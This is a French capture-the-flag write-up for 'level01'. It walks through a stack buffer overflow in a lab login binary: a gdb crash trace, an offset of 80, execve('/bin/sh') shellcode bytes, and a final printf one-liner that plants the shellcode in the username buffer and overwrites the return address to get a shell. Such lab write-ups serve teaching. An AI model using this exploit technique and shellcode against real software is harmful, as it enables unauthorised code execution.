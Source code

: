 En utilisant gdb et en donnant en mot de passe jusqu'a 100 'a' on peut voir que le programme essaye d'executer du code a l'address 0x61616161 (qui correspond a un morceau de notre chaine "aaaa").
```
(gdb) run
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
(gdb) bt
#0  0x61616161 in ?? ()
#1  0x0000000a in ?? ()
#2  0xffffd7b4 in ?? ()
Backtrace stopped: previous frame inner to this frame (corrupt stack?)
```
On en deduit que le registre RIP est a un moment charge par une valeur qu'on ecrase par ce qu'on ecrit. On aimerait controller precisement quelle valeur on va mettre dans RIP pour executer le code qu'on veut.

## Calculer l'offset
On peut utiliser un outil pour calculer cet offset: https://wiremask.eu/tools/buffer-overflow-pattern-generator/

Offset: 80

## Le code
Il nous faut un buffer dans lequel mettre le code qu'on veut executer. Le buffer du nom d'utilisateur peut faire l'affaire. Son adresse est 0x0804a040 d'apres objdump -x, on rajoute 7 pour prendre en compte "dat_wil"

`dat_wil + le code`

`Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac + \x47\xa0\x04\x08`

Le code en question est sous forme d'instructions directement comprehensible par le CPU. Le site shell-storm repertorie differents code machines qui pourraient nous interesser, pour executer la fonction execve avec comme argument "/bin/sh": https://shell-storm.org/shellcode/files/shellcode-841.html
`\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

## Final
`printf "dat_wil\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\n%80c\x47\xa0\x04\x08\n" A >/tmp/level01.txt`
`cat /tmp/level01.txt - && ./level01`

